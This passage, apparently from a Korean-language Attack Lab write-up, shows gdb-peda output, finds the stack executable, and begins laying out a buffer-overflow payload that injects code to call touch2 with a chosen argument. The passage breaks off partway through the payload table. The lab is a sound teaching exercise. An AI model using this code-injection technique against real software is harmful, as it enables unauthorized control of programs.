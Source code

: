 ```r
0032| 0x5560d670 --> 0xf4f4f4f4f4f4f4f4 
0040| 0x5560d678 --> 0xf4f4f4f4f4f4f4f4 
0048| 0x5560d680 --> 0xf4f4f4f4f4f4f4f4 
0056| 0x5560d688 --> 0xf4f4f4f4f4f4f4f4 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 5, getbuf () at buf.c:12
12	in buf.c
```

```r
gdb-peda$ vmm 0x5560d650
Start              End                Perm	Name
0x55586000         0x55686000         rwxp	mapped
```

 `touch2`의 시작에 breakpoint를 잡았을 때  `rsp`가 `0x5560d650`이고, 여기에 스택이 존재하는 것으로 파악할 수 있다. 이때, 이 주소를 이용하여 gdb에서  `vmm 0x5560d650`을 실행시켰을 때, `Perm`이 `rwxp`, 즉 실행 가능한 영역으로 매핑되어 있는 것을 확인할 수 있다. 그렇기 때문에 우리는 스택에 우리가 원하는 코드를 삽입하여 실행시킬 수 있으므로, 스택에 우리가 원하는 인자를 넣은 다음 `pop rdi`, `ret`를 실행시켜서 이 문제를 해결할 것이다.



### Solution 

#### Check Address of `touch2`

```r
gdb-peda$ p touch2
$2 = {void (unsigned int)} 0x4018a5 <touch2>
```

#### Check Address of Stack

```r
gdb-peda$ reg rsp
RSP: 0x5560d650
```

#### Compose

<table>
    <thead>
        <tr>
            <th style="text-align: right; width: 11%"></th>
            <th style="text-align: center; width: 18%">hex</th>
            <th>Description</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td style="text-align: right">
                <-24>
  			</td>
            <td style="text-align: center">
                00 00 00 00 00 00 00 00
  			</td>
            <td>
                buffer for `buf`
  			</td>
        </tr>
        <tr>
            <td style="text-align: right">
                <-16>
  			</td>
            <td style="text-align: center">
                00 00 00 00 00 00 00 00